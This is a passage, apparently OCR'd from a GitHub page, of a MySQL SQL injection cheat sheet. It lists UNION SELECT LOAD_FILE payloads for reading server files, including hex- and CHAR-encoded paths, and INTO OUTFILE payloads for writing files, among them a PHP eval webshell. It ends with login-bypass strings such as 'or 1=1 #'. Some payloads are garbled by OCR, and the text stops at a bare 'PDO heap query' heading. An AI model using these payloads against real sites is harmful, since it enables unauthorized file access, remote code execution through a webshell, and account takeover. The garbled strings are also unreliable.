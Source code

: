 condition
Need to read the file permissions
Need to know the absolute physical path of the file.
The size of the file to read must be less than max_allowed_packet
SELECT @@max_allowed_packet;
payload
Directly use the absolute path, pay attention to the processing of the slash path.
UNION SELECT LOAD_FILE("C://TEST.txt") #

UNION SELECT LOAD_FILE("C:/TEST.txt") #

UNION SELECT LOAD_FILE("C:\\TEST.txt") #
Use encoding

UNION SELECT LOAD_FILE(CHAR(67,58,92,92,84,69,83,84,46,116,120,116)) #

UNION SELECT LOAD_FILE(0x433a5c5c544553542e747874) #
select Export
condition
General to specify the absolute path
The directory to be exported has write permission
The file to outfile can not already exist
payload
UNION SELECT DATABASE() INTO OUTFILE 'C:\\phpstudy\\WWW\\test\\1';

UNION SELECT DATABASE() INTO OUTFILE 'C:/phpstudy/WWW/test/1';

Write webshell
condition
Need to know the site's absolute physical path, so after export webshell can be accessed
Need to export the directory can write permission.
payload
UNION SELECT  "<?php eval($_POST['chybeta'])?>" INTO OUTFILE 'C:/phpstudy/WWW/test/webshell.php';
Universal password login
admin '-
admin '#
admin '/ *
or '=' or
'or 1 = 1-
'or 1 = 1 #
'or 1 = 1 / *
') or' 1 '=' 1-
') or (' 1 '=' 1-
PDO heap query
